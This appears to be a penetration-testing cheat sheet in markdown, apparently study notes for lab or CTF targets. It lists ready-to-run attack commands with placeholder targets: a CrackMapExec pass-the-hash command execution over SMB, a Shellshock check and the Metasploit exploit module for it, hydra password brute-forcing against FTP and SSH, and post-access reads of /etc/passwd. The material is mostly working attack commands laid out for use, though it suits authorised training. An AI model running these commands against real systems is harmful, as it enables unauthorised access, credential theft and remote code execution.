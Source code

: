 ```bash
crackmapexec smb <TARGET_IP> -u Administrator -H "<NTLM_HASH>" -x "whoami"
```

### Linux Exploitation

#### Shellshock

```bash
# BASH - APACHE
nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <TARGET_IP>
```

```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <TARGET_IP>
set TARGETURI /gettime.cgi
exploit
```

#### FTP

```bash
# FTP
ftp <TARGET_IP>

ls -lah /usr/share/nmap/scripts | grep ftp-*
searchsploit ProFTPD
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> -t 4 ftp
```

#### SSH

```bash
# SSH
ssh <USER>@<TARGET_IP>

groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt <TARGET_IP> -t 4 ssh
```
